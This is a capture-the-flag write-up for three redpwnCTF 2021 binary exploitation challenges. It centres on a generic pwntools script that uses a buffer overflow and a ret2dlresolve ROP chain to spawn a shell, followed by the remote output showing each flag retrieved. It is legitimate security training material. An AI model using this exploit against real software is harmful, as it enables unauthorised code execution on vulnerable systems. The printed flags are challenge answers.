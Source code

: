 # redpwnCTF 2021

## beginner-generic-pwn-number-0/ret2generic-flag-reader/ret2the-unknown

> **beginner-generic-pwn-number-0**  
> pepsipu
> 
> rob keeps making me write beginner pwn! i'll show him...
>
> `nc mc.ax 31199`
>
> [beginner-generic-pwn-number-0](beginner-generic-pwn-number-0)
> 
> **ret2generic-flag-reader**  
> pepsipu
> 
> i'll ace this board meeting with my new original challenge!
>
> `nc mc.ax 31077`
>
> [ret2generic-flag-reader](ret2generic-flag-reader)
> 
> **ret2the-unknown**  
> pepsipu
>
> hey, my company sponsored map doesn't show any location named "libc"!
>
> `nc mc.ax 31568`
>
> [ret2the-unknown](ret2the-unknown)


Tags: _pwn_ _x86-64_ _ret2dlresolve_ _bof_


## Summary

I'm lumping all of these together since I used the _exact_ same code on all of them.  And I'm sure this was _not_ the intended solution.

I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:

[https://syst3mfailure.io/ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve)  
[https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    Stack:    No canary found
    PIE:      No PIE (0x400000)
```

All three had at least the above--all that is needed for easy ret2dlresolve with `gets`.  That and dynamically linked.

> Perhaps it's time to retire `gets`.


## Exploit (./getsome.py)

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF(args.BIN)

p = process(binary.path)
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
padding = cyclic_find(core.read(core.rsp, 8),n=8)
log.info('padding: ' + hex(padding))

rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]
dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote(args.HOST, args.PORT)
else:
    p = process(binary.path)

payload  = b''
payload += padding * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

To exploit most x86_64 `gets` challenges just type:

`./getsome.py BIN=./binary HOST=host PORT=port REMOTE=1`

Thanks it, get your flag and move on.

_How does this script work?_

Well, first the padding is computing by crashing the binary and extracting the payload from the core to compute the distance to the return address on the stack.  Then, ret2dlresolve is used to get a shell.  _See the retdlresolve links above._


Output:

```bash
# ./getsome.py BIN=./beginner-generic-pwn-number-0 HOST=mc.ax PORT=31199 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0': pid 265
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0' stopped with exit code -11 (SIGSEGV) (pid 265)
[!] Error parsing corefile stack: Found bad environment at 0x7fffed221f4f
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/core.265'
    Arch:      amd64-64-little
    RIP:       0x4012be
    RSP:       0x7fffed2205b8
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0' (0x400000)
    Fault:     0x6161616161616168
[*] padding: 0x38
[*] Loaded 14 cached gadgets for './beginner-generic-pwn-number-0'
[+] Opening connection to mc.ax on port 31199: Done
[*] Switching to interactive mode
"𝘱𝘭𝘦𝘢𝘴𝘦 𝘸𝘳𝘪𝘵𝘦 𝘢 𝘱𝘸𝘯 𝘴𝘰𝘮𝘦𝘵𝘪𝘮𝘦 𝘵𝘩𝘪𝘴 𝘸𝘦𝘦𝘬"
rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!
can you write me a heartfelt message to cheer me up? :(
$ cat flag.txt
flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}
```

```bash
# ./getsome.py BIN=./ret2generic-flag-reader HOST=mc.ax PORT=31077 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader': pid 312
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader' stopped with exit code -11 (SIGSEGV) (pid 312)
[!] Error parsing corefile stack: Found bad environment at 0x7fffe4f21f61
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/core.312'
    Arch:      amd64-64-little
    RIP:       0x40142f
    RSP:       0x7fffe4f20028
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader' (0x400000)
    Fault:     0x6161616161616166
[*] padding: 0x28
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader'
[+] Opening connection to mc.ax on port 31077: Done
[*] Switching to interactive mode
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
$ cat flag.txt
flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}
```

```bash
# ./getsome.py BIN=./ret2the-unknown HOST=mc.ax PORT=31568 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown': pid 361
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown' stopped with exit code -11 (SIGSEGV) (pid 361)
[!] Error parsing corefile stack: Found bad environment at 0x7ffcd8878f79
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/core.361'
    Arch:      amd64-64-little
    RIP:       0x401237
    RSP:       0x7ffcd8876cf8
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown' (0x400000)
    Fault:     0x6161616161616166
[*] padding: 0x28
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown'
[+] Opening connection to mc.ax on port 31568: Done
[*] Switching to interactive mode
that board meeting was a *smashing* success! rob loved the challenge!
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...
where is this place? can you help me get there safely?
phew, good to know. shoot! i forgot!
rob said i'd need this to get there: 7f6564131560
good luck!
$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
```
